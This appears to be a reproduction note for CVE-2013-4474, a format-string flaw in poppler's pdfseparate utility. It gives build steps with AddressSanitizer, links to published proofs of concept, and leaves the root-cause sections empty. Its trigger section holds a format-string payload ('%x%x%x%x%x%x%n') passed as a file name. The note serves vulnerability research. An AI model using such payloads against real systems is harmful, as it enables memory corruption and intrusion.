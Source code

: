 # CVE-2013-4474

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-4473/poppler-0.24.2.tar.xz
tar -xvf poppler-0.24.2.tar.xz
cd poppler-0.24.2
CC=~/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang CXX=~/ASAN--/llvm-4.0.0-project/ASan--Build/bin/clang++ CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./utils/pdfseparate -f 1 -l 1 aPdfFile.pdf "%x%x%x%x%x%x%n"
./utils/pdfseparate demo.pdf test-%s-%d.pdf
```

## PoCs

[CVE request: 3 vulnerabilities in poppler and 1 in Xpdf](http://seclists.org/oss-sec/2013/q4/181)

[Poppler 0.14.3 - '/utils/pdfseparate.cc' Local Format String](https://www.exploit-db.com/exploits/38817/)

[Poppler '/utils/pdfseparate.cc' Local Format String Vulnerability](https://www.securityfocus.com/bid/63374/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <https://cgit.freedesktop.org/poppler/poppler/diff/utils/pdfseparate.cc?id=61f79b8447c3ac8ab5a26e79e0c28053ffdccf75>

## References
